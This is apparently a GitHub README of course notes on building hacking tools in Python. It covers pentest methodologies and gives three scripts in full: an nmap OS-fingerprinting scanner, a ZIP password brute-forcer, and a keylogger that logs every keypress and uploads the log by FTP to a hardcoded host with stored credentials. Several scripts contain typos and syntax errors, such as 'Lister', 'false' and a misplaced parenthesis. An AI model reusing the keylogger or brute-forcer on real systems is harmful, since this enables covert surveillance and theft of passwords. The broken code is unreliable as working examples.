 # Ethical-Hacking-Tools
This repository contains notes i took while going through Cybrary's  [Developing Ethical Hacking Tools with Python](https://app.cybrary.it/browse/course/developing-ethical-hacking-tools-with-python/), it also contains some python scripts like : 

- [active_info.py](https://github.com/Hissane/Ethical-Hacking-Tools/blob/main/active_info.py) : Script to perform active information gathering using nmap
- [keylogger.py](https://github.com/Hissane/Ethical-Hacking-Tools/blob/main/keylogger.py) : program that records all the keys pressed in a computer + sends the logs to an ftp server
- [zipbrute.py](https://github.com/Hissane/Ethical-Hacking-Tools/blob/main/zipbrute.py) : a ZIP password bruteforcer 

## Penetration testing methodologies 

- Open Source Security Testing Methodology Manual OSSTMM
- Open Web Application Security Project OWASP
- NIST 800-115 
- Penetration Testing Execution Standard - PTES
- And others 

## Penetration Testing Execution Standard - PTES 
1. Pre-engagement Interactions : documents approvals and tools needed for the tests 
2. Intelligence Gathering : gaining as much infos possible from social media and public records (OSINT)
3. Threat Modeling (most often skipped in the typical pentest)
4. Vulnerability Analysis : Discover and validate vulnerabilities, there is an active information gahtering process
5. Exploitation : use the vulnerabilities to access the system 
6. Post Exploitation : look for ways to maintain access to the system 
7. Reporting : document the entire process to an understanding of the client

## Information Gathering 

```python
import nmap 
import sys 
#import pprint
import time

nm_scan = nmap.PortScanner()
print('\nRunning...\n')
nm_scanner = nm_scan.scan(sys.argv[1], '80', arguments = '-O')  # -O is for OS fingerprinting 
# pprint(nm_scanner)

host_is_up = "The host is "+nm_scanner['scan'][sys.argv[1]]['status']['state']+".\n"
port_open = "The port 80 is : "+nm_scanner['scan'][sys.argv[1]]['tcp'][80]['state']+".\n"
method_scan = "The scanning method is : "+nm_scanner['scan'][sys.argv[1]]['tcp'][80]['reason']+".\n"
guessed_os = "There is a %s percent chance that the host is running %s"%(nm_scanner['scan'][sys.argv[1]]['osmatch'][0]['accuracy'],nm_scanner['scan'][sys.argv[1]]['osmatch'][0]['name'])+".\n"

with open("%s.txt"%sys.argv[1], 'w') as f:
	f.write(host_is_up + port_open + method_scan + guessed_os)
	f.write("\nReport generated "+time.strftime("%Y-%m-%d_%H:%M:%S GMT", time.gmtime()))

print("\nFinished...")
```
### Usage 
```
python active_info.py <victim_ip_address>
```
nm_scanner is a dictionnary so : 

- To view the state of the host 
```
print("The host is : "+nm_scanner['scan']['ip_you_want_to_scan']['status']['state'])
```
- To view the port
```
print("The port 80 is : "+nm_scanner['scan']['ip_you_want_to_scan']['tcp'][80]['state'])
```
- To view the methode of scanning 
```
print("The scanning method is : "+nm_scanner['scan']['ip_you_want_to_scan']['tcp'][80]['reason'])
```
- To view the OS it guesses 
```
print("There is a %s percent chance that the host is running %s : "%(nm_scanner['scan']['ip_you_want_to_scan']['osmatch'][0]['accuracy'],nm_scanner['scan']['ip_you_want_to_scan']['osmatch'][0]['name']))
```
## Keylogger 
### Prerequisites
> pip install pypnut

VirtualBox  
Metasploitable 2 vulnerable machine

### Script
```python
from pynput.keyboard import Key, Listener
import ftplib 
import logging 

logdir = ""
logging.basicConfig(filename=(logdir+"klog-res.txt")), level=logging.DEBUG, format="%(asctime)s:%(message)s"

def pressing_key(Key):
	try: 
		logging.info(str(Key))
	except AttributeError: 
		print("A special key {0} has been pressed. ".format(key))

def releasing_key(key):
	if key == Key.esc: 
		return false

print("\nStarted listening...\n")

with Lister(on_press=pressing_key, on_release=releasing_key) as listener: 
	listener.join()

print("\nConnecting to the FTP and sending the data...")

sess = ftplib.FTP("192.168.68.145", "msfadmin", "msfadmin") #change accordingly to your vulnerable machine 
file = open("klog-res.txt", "rb")
sess.storbinary("STOR klog-res.txt", file)
file.close()
sess.quit()
```
### Usage
```
python keylogger.py
```
## Bruteforcing ZIP Passwords
```python
from zipfile import ZipFile
import argparse 

parser = argparse.ArgumentParser(description="\nUsage: python zipbrute.py -z <zipfile.azip> -p <passwordfile.txt>") 
parser.add_argument("-z", dest="ziparchive", help="Zip archive file")
parser.add_argument("-p", dest="passfile", help="Password file")
parsed_args = parser.parse_args()

try:
	zipaechive=ZipFile(parsed_args.ziparchive)
	passfile=parsed_args.passfile
	foundpass=""
except: 
	print(parser.description)
	exit(0)

with open(passfile, "r") as f:
	for line in f:
		password = line.strip("\n")
		password = password.encode("utf-8")

		try: 
			foundpass = ziparchive.extractall(pwd=password)
			if foundpass == None:
				print("\nFound Password: ", password.decode())
		except RuntimeError:
			pass
	if foundpass == "":
		print("\nPassword not found. Try a bigger password list.")
```
### Usage 
```
python zipbrute.py -z <zipfile.azip> -p <passwordfile.txt>
```